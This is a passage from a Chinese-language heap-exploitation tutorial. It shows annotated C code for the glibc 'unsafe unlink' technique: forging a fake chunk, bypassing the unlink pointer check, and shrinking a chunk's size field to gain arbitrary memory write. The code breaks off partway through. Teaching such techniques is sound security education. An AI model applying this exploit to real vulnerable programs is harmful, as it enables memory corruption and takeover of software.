 ### <a class="reference-link" name="%E6%BA%90%E4%BB%A3%E7%A0%81"></a>源代码

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;
#include &lt;stdint.h&gt;


uint64_t *chunk0_ptr;

int main()
{
        int malloc_size = 0x80; //we want to be big enough not to use fastbins
        int header_size = 2;

        //本测试的重点就是利用free来破坏我们的全局chunk0_ptr以实现任意地址写
        fprintf(stderr, "The point of this exercise is to use free to corrupt the global chunk0_ptr to achieve arbitrary memory write.nn");

        chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
        uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1

        //全局指针为chunk0_ptr,我们将要攻击的chunk为chunk1_ptr
        fprintf(stderr, "The global chunk0_ptr is at %p, pointing to %pn", &amp;chunk0_ptr, chunk0_ptr);
        fprintf(stderr, "The victim chunk we are going to corrupt is at %pnn", chunk1_ptr);

        //我们要在chunk0中伪造一个chunk
        fprintf(stderr, "We create a fake chunk inside chunk0.n");

        //我们把我们的fake_chunk的fd指向我们的chunk0_ptr来满足P-&gt;FD-&gt;BK=P
        fprintf(stderr, "We setup the 'next_free_chunk' (fd) of our fake chunk to point near to &amp;chunk0_ptr so that P-&gt;fd-&gt;bk = P.n");

        chunk0_ptr[2] = (uint64_t) &amp;chunk0_ptr-(sizeof(uint64_t)*3);

        //我们把fake_chunk的bk指针指向我们的chunk0_ptr来满足P-&gt;BK-&gt;FD
        fprintf(stderr, "We setup the 'previous_free_chunk' (bk) of our fake chunk to point near to &amp;chunk0_ptr so that P-&gt;bk-&gt;fd = P.n");

        //通过这么设置,我们就可以成功bypass堆的检测即(P-&gt;FD-&gt;BK!=P||P-&gt;BK-&gt;FD!=P)==FALSE
        fprintf(stderr, "With this setup we can pass this check: (P-&gt;fd-&gt;bk != P || P-&gt;bk-&gt;fd != P) == Falsen");
        chunk0_ptr[3] = (uint64_t) &amp;chunk0_ptr-(sizeof(uint64_t)*2);
        fprintf(stderr, "Fake chunk fd: %pn",(void*) chunk0_ptr[2]);
        fprintf(stderr, "Fake chunk bk: %pnn",(void*) chunk0_ptr[3]);

        //我们假设我们可以通过溢出chunk0使得我们可以自由的更改chunk1的内容
        fprintf(stderr, "We assume that we have an overflow in chunk0 so that we can freely change chunk1 metadata.n");
        uint64_t *chunk1_hdr = chunk1_ptr - header_size;

        //我们用chunk1的previous_size来收缩chunk0,让free认为我们的chunk0是在我们的伪造的chunk的地方开始的
        fprintf(stderr, "We shrink the size of chunk0 (saved as 'previous_size' in chunk1) so that free will think that chunk0 starts where we placed our fake chunk.n");
        fprintf(stderr, "It's important that our fake chunk begins exactly where the known pointer points and that we shrink the chunk accordinglyn");
        chunk1_hdr[0] = malloc_size;

        //如果我们正常的free chunk0,那么chunk1的pre_szie将是0x90,然而现在是一个新的值
```
